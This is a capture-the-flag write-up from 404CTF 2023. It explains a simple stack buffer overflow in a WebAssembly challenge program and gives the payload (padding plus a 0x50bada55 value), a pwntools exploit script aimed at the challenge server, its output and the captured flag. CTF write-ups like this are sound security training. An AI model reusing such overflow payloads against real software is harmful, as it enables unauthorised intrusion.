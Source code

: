 ```yaml
---
title: CTFs | 404CTF2023 | PWN | Tour De Magique
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/tourdemagique
---
```



# Tour de magique

![tourde_magie](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/fe2455b8-6f8a-4509-85bc-d5c7b5805864)

We can download the zip file [tour-de-magie.zip](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/tour-de-magie.zip) from the challenge. 


After unzipping the downloaded file, it appears that the files provided are intended for running WebAssembly code. The main code is stored in the `main.c` file. To test the program, we can use the command `wasmtime main.wasm` in the terminal. This command executes the WebAssembly module main.wasm using the wasmtime runtime environment. This way, we can run and observe the behavior of the WebAssembly program.

After analyzing the code, I realize that there is a simple Buffer Overflow (BOF) vulnerability. From this information, I can construct a payload to exploit the vulnerability and retrieve the flag.

Based on the code in `main.c`, the payload can be constructed as follows:

`payload = b'A' * 16 + b'\x55\xda\xba\x50' + b'AAA'`

Here is my exploitation code:

```python
from pwn import *

# p = process(["./wasmtime","main.wasm"])
p = remote("challenges.404ctf.fr",30274)


p.recvuntil(b'magicien ?')
p.sendline(b'A'*16+p32(0x50bada55)+b'AAA')

print(p.recvall().decode())
```

```shell
$ python3 exploit.py 
[+] Opening connection to challenges.404ctf.fr on port 30274: Done
[+] Receiving all data: Done (119B)
[*] Closed connection to challenges.404ctf.fr port 30274

Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...
404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}
```

**Flag:** `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`